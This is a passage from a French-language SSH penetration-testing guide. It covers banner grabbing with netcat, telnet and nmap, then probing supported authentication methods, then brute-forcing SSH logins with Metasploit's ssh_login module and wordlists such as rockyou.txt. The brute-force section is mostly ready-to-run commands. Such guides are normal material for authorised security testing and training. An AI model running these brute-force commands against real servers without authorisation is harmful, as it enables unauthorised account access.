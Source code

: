 ### Banner grabbing manuel
```bash
# Avec netcat
nc <target> 22

# Avec telnet
telnet <target> 22

# Avec nmap
nmap -sV -p 22 <target> --version-intensity 9
```

### Identification des méthodes d'authentification
```bash
# Test des méthodes supportées
ssh -o PreferredAuthentications=none <target>

# Test spécifique
ssh -o PreferredAuthentications=password <target>
```

---

## Phase 3: Attaques par force brute

### Avec Metasploit (Méthode principale)

#### Configuration de base
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target>
set RPORT 22
set STOP_ON_SUCCESS true
set VERBOSE true
```

#### Utilisation de wordlists intégrées
```bash
# Utilisateurs et mots de passe communs
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
exploit

# Wordlists Unix
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

#### Test utilisateur unique
```bash
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```
